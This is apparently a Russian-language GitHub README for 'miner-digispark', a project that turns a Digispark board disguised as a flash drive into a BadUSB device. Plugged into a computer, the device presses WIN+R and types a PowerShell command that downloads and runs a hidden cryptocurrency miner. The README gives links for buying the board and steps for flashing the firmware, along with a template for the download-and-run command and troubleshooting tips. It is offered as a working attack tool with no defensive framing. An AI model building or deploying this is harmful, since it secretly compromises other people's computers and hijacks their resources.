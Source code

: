 # miner-digispark | Вирус на флешке
_Прошивка для digispark + скрытый майнер_
## Идея
При подключении "флешки" к компютерю будет устанавливаться и запускаться скрытый майнер
## Реализация
- Покупаем  [Digispark](https://alexgyver.ru/lessons/digispark/) 

> [Купить на Ozon](https://ozon.ru/t/Dr8D1GD) | [Купить на AliExpress](https://aliexpress.ru/item/2040316211.html?sku_id=58307777832&spm=a2g2x.productlist.search_results.1.5d115ed1ofwRd7) 

- Устанавливаем [прошивку](firmware.ino) и открываем в [Arduino IDE](https://www.arduino.cc/en/software)
- Создаем майнер (Советую на виртуалке) 
> Видео-инструкция -- https://youtu.be/V3U5QreydyM?si=CV2yRZ7MG-l6zGF8
- Загружаем майнер на github/обменник/сервер (нужен полный путь до файла https://... exe)
- Редактируем прошивку в Arduino IDE под себя
> TrinketKeyboard.print("powershell -c \"Invoke-WebRequest -Uri 'ПРЯМАЯ ССЫЛКА НА ФАЙЛ https://...exe' -OutFile 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'; Start-Process 'ПУТЬ КУДА БУДЕТ ЗАГРУЖАТЬСЯ ФАЙЛ/НАЗВАНИЕ ФАЙЛА.exe'\"");

- Загружаем прошивку [(Инструкция)](https://github.com/Sudox00/miner-digispark/blob/main/manual-firmware.md)
- Готово! 
## Вопрос - Ответ
### Как работает?
- После подключения Digispark к USB нажимается WIN+R, а далее вводится подготовленная команда которая будет устанавливать и запускать майнер.
### Работает, но майнер не загружается
- Возможно нету доступа к папке. Попробуйте сменить расположение. Если не помогло, то убедитесь в корректности загрузочной ссылки, должна быть укаазана **прямая** ссылка до файла (Пример: https: //file.exemple/my_miner.exe) 


 
